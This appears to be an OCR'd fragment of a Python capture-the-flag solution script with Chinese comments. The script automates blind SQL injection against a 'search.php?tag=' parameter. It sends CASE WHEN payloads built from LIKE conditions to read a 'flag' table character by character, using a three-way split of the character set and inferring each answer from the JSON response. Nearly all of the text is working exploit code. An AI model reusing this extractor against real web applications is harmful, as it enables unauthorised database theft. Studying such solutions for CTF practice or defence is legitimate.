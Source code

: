 ``` python
      char_set[L:ML],
      char_set[ML:MR],
      char_set[MR:R+1]
    ]

    conditions = []
    for i in range(0, 3):
      if len(group[i]) == 0:
        # 空的話加上 1=2，一個恆假的條件
        conditions.append("1=2")
        continue
      # 這邊要對 _ 做處理，加上 /，否則 _ 會配對到任意一個字元
      arr = [f"(content like '{result}{chr(92) + c if c == '_' else c}%')" for c in group[i]]
      conditions.append(" or ".join(arr))

    payload = f'''
    (select case
      when ({conditions[0]}) then 1  
      when ({conditions[1]}) then 2  
      when ({conditions[2]}) then 5
      else 10
    end from flag)
    '''

    print("trying", group)

    response = requests.get(f'{host}/search.php?tag={encode(payload)}')
    if not response.ok:
      print('error')
      print(response.text)
      print(payload)
      is_over = True
      break

    data = json.loads(response.text)
    if len(data) == 0:
      print("end")
      is_over = True
      break

    if len(data) == 2:
      R = ML
      if len(group[0]) == 1:
        result += group[0]
        break
      
    else:
      if data[0]["name"] == "home1":
        L = ML
        R = MR
        if len(group[1]) == 1:
          result += group[1]
          break
      else:
        L = MR
        if len(group[2]) == 1:
          result += group[2]
          break

print(f"time: {time.time() - start}s")
``` 
